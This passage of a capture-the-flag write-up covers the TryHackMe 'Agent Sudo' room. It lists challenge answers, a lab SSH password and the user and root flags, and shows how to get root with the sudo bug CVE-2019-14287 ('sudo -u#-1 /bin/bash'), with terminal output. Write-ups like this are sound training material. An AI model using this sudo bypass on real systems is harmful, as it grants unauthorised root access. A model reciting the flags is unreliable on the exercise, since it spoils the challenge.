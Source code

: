 > chris

**Answer**: `James`
### SSH password
**Answer**: `hackerrules!`
## Capture the user flag
### What is the user flag?
1. Login with SSH password `hackerrules!`,
2. list files,
3. extract user flag
```bash
$ ssh james@10.10.174.138
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```
### What is the incident of the photo called?
1. Copy with SSH password `hackerrules!` and command `scp james@10.10.174.138:/home/james/Alien_autospy.jpg .`
2. Google image search yields https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment

**Answer**: `Roswell alien autopsy`
## Privilege escalation
### CVE number for the escalation
* According to [Red Hat](https://access.redhat.com/security/cve/cve-2019-14287), `CVE-2019-14287` can be used by running `sudo` with user ID of `-1`.

**Answer**: `CVE-2019-14287`
### What is the root flag?
```bash
$ sshpass -p 'hackerrules!' ssh james@10.10.174.138
james@agent-sudo:~$ sudo -l
[sudo] password for james: hackerrules!
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```
**Answer**: `b53a02f55b57d4439e3341834d70c062`
### Who is Agent R?